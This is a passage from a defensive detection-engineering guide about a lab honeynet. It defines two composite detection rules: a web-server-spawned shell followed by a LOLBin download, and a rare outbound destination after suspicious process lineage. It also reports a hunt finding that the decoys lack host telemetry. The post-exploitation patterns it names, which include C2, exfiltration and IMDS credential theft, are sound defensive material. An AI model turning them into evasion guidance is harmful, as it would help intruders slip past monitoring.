`DET-47-01`; Part 11 §2.2's lineage-tier classifier and Part 31's baseline-rarity check for
`DET-47-02`), plus the raw row counts of `DeviceProcessEvents` and `DeviceNetworkEvents` (or their
Sysmon Event ID 1 / Event ID 3 equivalents) for the web-tier host group. A sustained drop in any of
those — independent of whether the composite rule has fired recently — is the signal that a join
input has gone dark; the composite's own silence is not.

This part hands off to: Part 14 (the full network-tier C2/beaconing/exfiltration detection logic
that Stage 6 only frames, not re-derives), Part 41 (expressing this part's composite detections
honestly on the six-tier coverage scale rather than as a single "web compromise" checkbox), and
Part 44 (the broader, cross-domain adversary-behavior bridge this part's six-stage chain is one
concrete instance of). Part 19 owns the cloud-infrastructure side of the IMDS-theft thread raised
in §7's Engineering Reality box in full.

**Detection ledger for this part:** DET-47-01 (web-server-lineage shell followed by a LOLBin
download, same host, bounded window), DET-47-02 (new/rare outbound destination from a web-tier
host following a Suspicious-or-higher lineage event).

**Hunt ledger for this part:** HUNT-47-01 — would this lab's honeynet decoys, if instrumented with
real host and network telemetry, actually produce the `confirmed_postexploit` corroboration
Part 16's own state machine names but the current decoy architecture cannot supply?
**Threat Hypothesis:** A `possible_success` session's continued-activity signal (Part 16
`HUNT-16-01`) is, on its own, indistinguishable from a scanner re-sweeping the same target on a
schedule, and only host/network corroboration — the join this part builds in `DET-47-01` and
`DET-47-02` — can actually separate the two. **Finding:** Confirmed against the honeynet's own
architecture: the decoys log web-layer (`http_events`) and correlated session (`attack_sessions`)
data but carry no host-level process or network-egress agent, so the `confirmed_postexploit` tier
Part 16's `FIG-16-04` names is structurally unreachable on this specific infrastructure regardless
of what an attacker actually does — a negative finding about telemetry, not about any attacker's
skill. **Disposition:** Negative finding against the current decoy build; positive finding for a
concrete infrastructure change (adding host-level instrumentation to at least one decoy tier) that
would let this lab's own honeynet exercise the full chain this part describes, rather than only
its first stage.
